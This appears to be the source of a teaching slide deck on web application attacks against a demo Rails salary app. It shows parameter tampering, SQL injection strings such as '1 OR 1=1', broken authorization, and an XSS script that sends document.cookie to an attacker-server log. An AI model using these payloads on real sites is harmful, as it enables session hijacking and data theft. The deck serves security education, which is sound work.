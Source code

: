 !SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" method="post">
	<input id="user_email" name="user[email]" size="30" type="text" value="" />
	<input id="user_password" name="user[password]" size="30" type="password" />
	<input type="submit" value="Create" />
	</form>


!SLIDE full-page bullets incremental
* Based on *RoR convetions* we may *infer a db model* something like:
* ![http://yuml.me/7635ae77](class_diagram.png)


!SLIDE bullets incremental
    @@@ html
    <select id="user_role_id" name="user[role_id]">
* Since *user* would hold *foreign key* to *role* table


!SLIDE full-page
![Here we see a tamper data screenshot ...](tamper1.png)


!SLIDE full-page
![Here we see an admin saved screenshot ...](admin_saved.png)


!SLIDE bullets incremental full-page
### SQL Injection ###
* Consider search raises page
* ![Search raises](search.png)


!SLIDE bullets incremental full-page
### ... ###
* Look at what *address* is the *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**


!SLIDE full-page
![Here we see an admits injection screenshot ...](admits_injection.png)


!SLIDE bullets incremental
* Lets modify the query string
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*


!SLIDE full-page
![Here we see an succesful attack screen ...](raises1.png)


!SLIDE bullets incremental
### Broken Authorization ###
* *Parts/resouces* of our application are usually *restricted* to different *users*
* Some times *logic behind* access is *flawed*


!SLIDE bullets incremental
* Following with our previous example on a security flaw
* Are we able to *delete* someone else *raise petition*?


!SLIDE full-page
![Here we see an succesful attack screen ...](raises2.png)


!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.


!SLIDE bullets incremental
### Harming script ###
    @@@javascript
    <script>
      url = 'http://localhost:80/' + document.cookie
      image_tag = "<img src='" + url + "'>"
      document.write(image_tag)
    </script>

* **Note:** This script may be written in a variety of different ways
* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;


!SLIDE full-page
![Here we see an succesful attack screen ...](xss1.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss2.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss3.png)


!SLIDE
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td><script>document.write('<img src="http://localhost:80/' + document.cookie + '" >')</script></td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>


!SLIDE commandline incremental
### If this were the attacker server ###
    $ tail -f /var/log/apache2/error.log 
    [Wed Oct 06 13:40:39 2010] [error] [client 127.0.0.1] 
    File does not exist: /var/www/_salary-manager_session
    =BAh7CCIQX2NzcmZfdG9rZW4iMWhhNHZRUW0zRVRSZUQ3TlI3dXFI
    NzQ3NFIwYm1FMGJhYXpNYXV4N0FpdFU9Ig9zZXNzaW9uX2lkIiVjN
    GQyYjcwMmE5OWYxNDlmYzYyNzliYjlkNTBlZDUxMSIZd2FyZGVuLn
    VzZXIudXNlci5rZXlbByIJVXNlcmkG--f5fd5e5103ee0d723d616
    f130f934c6ef5b33e2b


!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*
